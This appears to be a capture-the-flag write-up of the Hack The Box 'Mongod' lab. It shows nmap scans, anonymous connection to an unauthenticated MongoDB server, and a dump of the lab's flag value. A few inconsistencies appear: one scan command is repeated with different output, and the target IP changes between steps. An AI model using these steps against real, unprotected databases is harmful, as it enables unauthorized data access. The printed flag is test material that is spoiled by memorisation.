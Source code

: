 ```yaml
---
title: "Hack The Box - Mongod"
date: 2022-10-12T13:05:37+05:30
draft: false
description: " mongod from HackTheBox is an retired machine which is vulnerable to security Misconfiguration, which can be exploited with help of default credential "
hideToc: false
tocPosition: outer
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- MongoDB
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/mongod/1.png 
---
```


Hi Hackers Welcome Back, Today we are going to look at Hack The Box Mongod Machine.

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Mongod</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the port 27017 ware open. which is mongodb service, connected as a  anonymous user.

## Recon

Lets start with default script scan 

```bash
atom@atom-VirtualBox:~/htb/mongod$ nmap -sC -sV 10.129.147.150
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-12 22:18 IST
Nmap scan report for 10.129.147.150
Host is up (0.23s latency).
Not shown: 988 closed ports
PORT      STATE    SERVICE       VERSION
13/tcp    filtered daytime
22/tcp    open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
311/tcp   filtered asip-webadmin
513/tcp   filtered login
1094/tcp  filtered rootd
1594/tcp  filtered sixtrak
2909/tcp  filtered funk-dialout
3871/tcp  filtered avocent-adsap
4129/tcp  filtered nuauth
7106/tcp  filtered unknown
8291/tcp  filtered unknown
27356/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.71 seconds
```

Expect 1 port all other ports are filtered by firewall, default scri[t scan will perform scan on top 1000 ports, for better enumeration lets scan entire port 

```bash
atom@atom-VirtualBox:~/htb/mongod$ nmap -sC -sV 10.129.147.150
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-12 22:18 IST
Nmap scan report for 10.129.147.150
Host is up (0.23s latency).
Not shown: 988 closed ports
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open     mongodb       MongoDB 3.6.8 
```

Databases are a collection of organized information that can be easily accessed, managed and updated. In most environments, database systems are very important because they communicate information related to your sales transactions, product inventory, customer profiles and marketing activities. There are different types of databases and one among them is MongoDB, which is a document-oriented NoSQL database. It is crucial to be aware of how the data is stored in different types of databases and how we can connect to these remote database servers and retrieve the desired data. In a document-oriented NoSQL database, the data is organized into a hierarchy of the following levels:

1. databases
2. collections
3. documents

Databases make up the top level of data organization in a MongoDB instance. Databases are organized into collections which contain documents. Documents contain literal data such as strings, numbers, dates, etc. in a JSON-like format. It often happens that the database server is misconfigured to permit anonymous login which can be exploited by an attacker to get access to sensitive information stored on the database. Mongod is a Linux box that features a MongoDB server running on it which allows anonymous login without a username or

password. We can remotely connect to this MongoDB server using the mongo command line utility and enumerate the database in it to retrieve the flag.

**MongoDB**

MongoDB is a document-oriented NoSQL database. Instead of using tables and rows like in traditional relational databases, MongoDB makes use of collections and documents. Each database contains collections which in turn further contain documents. Each document consists of key-value pairs which are the basic unit of data in a MongoDB database. A single collection can contain multiple documents and they are schema-less meaning that the size and content of each document can be different from each another.

**Connecting to MongoDB**

In order to connect to the remote MongoDB server running on the target box, we will need to install the mongodb utility, which can be done on Debian-based Linux distributions (like Parrot, Kali and Ubuntu) by downloading the following tar archive file.

```

curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
``` 
```
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```

``` 
cd mongodb-linux-x86_64-3.4.7/bin

```
```
./mongo mongodb://{target_IP}:27017
```

```bash
atom@atom-VirtualBox:~/tools/mongodb-linux-x86_64-3.4.7/bin$ ./mongo mongodb://10.129.151.153:27017
MongoDB shell version v3.4.7
connecting to: mongodb://10.129.151.153:27017
MongoDB server version: 3.6.8
WARNING: shell and server versions do not match
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
	http://docs.mongodb.org/
Questions? Try the support group
	http://groups.google.com/group/mongodb-user
Server has startup warnings: 
2022-10-16T07:56:17.749+0000 I STORAGE  [initandlisten] 
2022-10-16T07:56:17.750+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2022-10-16T07:56:17.750+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2022-10-16T07:56:21.200+0000 I CONTROL  [initandlisten] 
2022-10-16T07:56:21.200+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2022-10-16T07:56:21.200+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2022-10-16T07:56:21.200+0000 I CONTROL  [initandlisten] 
>
```

We have successfully connected to the remote MongoDB instance as an anonymous user. We can list the databases present on the MongoDB server using the following command.

```bash
> show dbs;
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
>
```

We can see that there exists a single collection named flag . We can dump the contents of the documents present in the flag collection by using the db.collection.find() command. Let's replace the collection name flag in the command and also use pretty() in order to receive the output in a beautified format.

```jsx
test> use sensitive_information
switched to db sensitive_information
sensitive_information> db.flag.find().pretty() 
[
  {
    _id: ObjectId("630e3dbcb82540ebbd1748c5"),
    flag: '1b6e6fb359e7c40241b6d431427ba6ea'
  }
]
sensitive_information>
```